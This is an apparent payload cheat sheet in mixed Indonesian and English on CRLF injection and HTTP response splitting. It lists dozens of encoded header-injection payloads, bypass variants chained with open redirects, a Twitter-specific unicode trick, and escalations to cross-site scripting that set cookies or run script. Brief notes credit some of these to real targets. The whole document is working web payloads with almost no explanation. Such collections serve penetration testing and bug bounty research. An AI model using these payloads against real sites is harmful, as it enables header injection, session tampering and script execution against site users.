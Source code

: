 ## CRLF Injection || HTTP Response Splitting/Injeksi CRLF || Pemisahan Respon HTTP

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**Header-based test, site root/Tes berbasis header, root situs**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

```
/%250aheader:header
```

```
/%25250aheader:header
```

```
/%%0a0aheader:header
```

```
/%3f%0dheader:header
```

```
/%23%0dheader:header
```

```
/%25%30aheader:header
```

```
/%25%30%61header:header
```

```
/%u000aheader:header
```

**CRLF dirantai/chained dengan kesalahan konfigurasi server Open Redirect**

_Catatan:_ Ini terkadang berhasil. (Ditemukan di beberapa situs Yandex, tidak dapat dieksploitasi dari akarnya/root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**CRLF khusus Twitter** oleh [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS/Injeksi CRLF ke XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Pemisahan respons/splitting pada 302 Redirect, sebelum header Lokasi** (Discovered in DoD/Ditemukan di Departemen Pertahanan)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Pemisahan respons pada kode 301, dirantai dengan Open Redirect ke header lokasi yang rusak dan untuk memecahkan 301** oleh [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
